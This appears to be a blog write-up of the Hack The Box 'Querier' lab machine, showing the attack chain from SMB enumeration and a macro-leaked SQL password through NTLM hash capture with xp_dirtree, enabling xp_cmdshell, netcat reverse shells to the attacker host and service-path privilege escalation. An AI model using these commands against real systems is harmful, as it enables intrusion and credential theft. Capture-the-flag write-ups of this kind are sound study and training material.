


External Recon #
I started with my usual “nmap” scan:
$ nmap -sC -sV -oN initial 10.10.10.125
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
1433/tcp open ms-sql-s Microsoft SQL Server 14.00.1000.00
| ms-sql-ntlm-info:
| Target_Name: HTB
| NetBIOS_Domain_Name: HTB
| NetBIOS_Computer_Name: QUERIER
| DNS_Domain_Name: HTB.LOCAL
| DNS_Computer_Name: QUERIER.HTB.LOCAL
| DNS_Tree_Name: HTB.LOCAL
|_ Product_Version: 10.0.17763I reduced the output to the interesting pieces. As we found some “DNS-Names” I put them into my “/etc/hosts” file.
$nano /etc/hosts
10.10.10.125 querier.htb.local querierAfter my initial scan, I proceeded with a script-scan. Especialy when I see “port 445” open. “Port 445” is used for “SMB” or filesharing on Windows.
But this time the “nmap” scripts failed to identify anything usefull on this port. A deadend?
As I couldn’t find anything else on the box, I tried another tool to check the “SMB-Service”: “Metasploit”.
$ msfconsole
msf5 use auxiliary/scanner/smb/smb_enumshares
msf5 auxiliary(scanner/smb/smb_enumshares) > set RHOSTS 10.10.10.125
msf5 run
[+] 10.10.10.125:445 - ADMIN$ - (DS) Remote Admin
[+] 10.10.10.125:445 - C$ - (DS) Default share
[+] 10.10.10.125:445 - IPC$ - (I) Remote IPC
[+] 10.10.10.125:445 - Reports - (DS)Note to self: It’s always a good idea to check and recheck your services with different tools. ;)
Explore #
I used the the file explorer to connect as an anonymous user.


The file has a “.xlsm” extension. Which means it should have a macro inside. Which turned out to be true once I opened the file.

Let’s investigate the macro.
Here are the important “SQL-Connection” bits:
Trusted_Connection=no;
Database=volume;
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6Weaponize #
Obviously I wanted to connect to the database now. For tasks like this I use the “impacket” toolset.
./mssqlclient.py -windows-auth reporting@querier

When you have access to a “Microsoft-SQL” Server, always check for the xp_cmdshell option to run commands on the
operating system.
SQL> xp_cmdshell cmd.exe
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.No dice. Permission denied.
But, of cause there’s a way around that. By pure chance I watched a video of ippsec who had the very same problem in a box earlier that week.
So I went back and checked what he did.
xp_dirtree to the rescue.
With xp_dirtree I can list folders and shares. And as Windows loves to do “single-sign-on” for the user with it’s “NTLM” hash
I can try to intercept it.
In order to grab the “NTLM-Hash” I need the tool named “responder” in one terminal and run the xp_dirtree command for the share created
by “responder” in another terminal.
-----------Terminal 1--------------
$ responder -I tun0 -wrfv
-----------Terminal 2--------------
SQL> exec xp_dirtree '\\10.10.14.4\files'The resulting “NTLM-Hash” is:

“hashcat” cracked the “NTLM-Hash” for me in mere seconds:
$ ./hashcat -m 5600 ntlm-hash.txt --force
> Password: corporate568Exploit #
I used the new credentials again with “impacket” to login:
./mssqlclient.py -windows-auth querier/mssql-svc:corporate568@querier
If xp_cmdshell will work now?
SQL> xp_cmdshell cmd.exe
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because
this component is turned off as part of the security configuration for this server.
A system administrator can enable the use of 'xp_cmdshell' by using 'sp_configure'.
For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.Almost. I seem to have to propper permissions now. But I need to enable it.
SQL> EXEC sp_configure 'show advanced options', 1
SQL> RECONFIGURE
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> RECONFIGUREThis looks promissing. My next goal should be to get a propper “reverse-shell” and some tools for the next step on the box. I used “impacket” again to give me a “SMB” Server which can hold my files. I put “nc64.exe” and “powerup.ps1” in that share.
python /opt/impacket/examples/smbserver.py -smb2support files $(pwd)
I downloaded them from my box to the target using a LOLBIN.
SQL> xp_cmdshell esentutl.exe /y \\10.10.14.4\files\nc64.exe /d C:\Users\mssql-svc\nc64.exe /o
SQL> xp_cmdshell esentutl.exe /y \\10.10.14.4\files\powerup.ps1 /d C:\Users\mssql-svc\powerup.ps1 /o

Now the “reverse-shell”:
-----------Terminal 1--------------
$ nc -lvnp 9001
-----------Terminal 2--------------
SQL> xp_cmdshell C:\Users\mssql-svc\nc64.exe -e cmd 10.10.14.4 9001

Privilege Escalation #
First, I’ve got the user.txt.
This time, I haven’t spent time in a dedicated “internal-recon” phase. It was a mixed bag due to the tools I used. The mentioned “powerup.ps1” script does technicaly both: Recon and Escalation.
The module was loaded into “powershell” like so:
C:\Users\mssql-svc> powershell
PS C:\Users\mssql-svc> import-module ./powerup.ps1
PS C:\Users\mssql-svc> invoke-allchecks
I spent quite some time trying to login somehow with the password in the “GPP”. But I wasn’t able to make it work. While doing this writeup however I realized - the password should have worked. Don’t know what I did wrong.
But there’s more than one way to victory: I’ve seen the vulnerable service but ignored it for a hopefully quick win with the password. After that failed I gave it a shot.
Root Flag #
I used “powerup.ps1” again, to exploit the “UsoSvr” service.
-----------Terminal 1--------------
$ nc -lvnp 9002
-----------Terminal 2--------------
PS C:\Users\mssql-svc> Set-ServiceBinaryPath -Name UsoSvc -Path 'C:\Users\mssql-svc\nc64.exe -e cmd 10.10.14.4 9002'
PS C:\Users\mssql-svc> restart-service UsoSvcSo what happened here? First, let me cite two things of the “powerup” authors regarding services and improper permissions:
[1] This misconfiguration happens when the executable associated with a service has improper permissions, allowing other users to write to the .exe. Since these services run as SYSTEM, if we replace the exe with our own, we can escalate quickly.
[2] Takes a service name […] that the current user has configuration modification rights on and executes a series of automated actions to execute commands as SYSTEM.
And this box is no exception. As far as I understand it, the service is vulnerable to the 2nd variant.

Mission Accomplished! :)